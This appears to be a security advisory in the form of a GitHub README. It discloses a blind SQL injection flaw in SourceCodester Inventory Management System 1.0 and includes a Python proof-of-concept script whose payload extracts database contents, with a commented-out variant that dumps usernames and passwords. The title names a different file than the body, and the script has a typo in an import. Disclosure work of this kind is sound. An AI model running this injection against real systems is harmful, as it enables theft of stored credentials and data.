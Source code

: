 # SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in catagory_data.php
## Software

- Software: Inventory Management System 1.0
- Software Link: https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html
- Vulnerability Type: SQL Injection
- Attack Type: Remote
- Vendor of Product: Sourcecodester

## Description

A vulnerability has been found in SourceCodester Inventory Management System 1.0 and classified as critical. SourceCodester Inventory Management System 1.0 has a SQL Injection vulnerability in app/ajax/product_data.php. Affected is file app/ajax/product_data.php, the manipulation of the argument `columns[1][data]` leads to SQL injection. Remote attackers can exploit boolean-based blind injection to retrieve all data from the database.

## Vulnerability Code
![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/e2d16d71-687c-417f-9d60-910ba7ef0803)

## POC
```python
import requests
import strin

url = "http://localhost:81/app/ajax/product_data.php"
res = ""
dict = string.digits + string.ascii_lowercase + "!@#$%^()[]_."

for i in range(1,50):
    for j in dict:
        payload = "id^(select(select database()) regexp '^%s');" % (res+j)
        # payload = "id^(select(select group_concat(username,password) from user) regexp '^%s');" % (res+j)
        data = {
            "order[0][column]":"1",
            "columns[1][data]": payload
        }
        response = requests.post(url, data=data)
        if 'DDR4' in response.text[790:820]:
            res += j
            print("[*] Found: ",res)
            break
```
![](https://github.com/Yesec/Inventory-Management-System/assets/19534204/b36b041f-389b-475b-999e-e3721cbbc8b3)

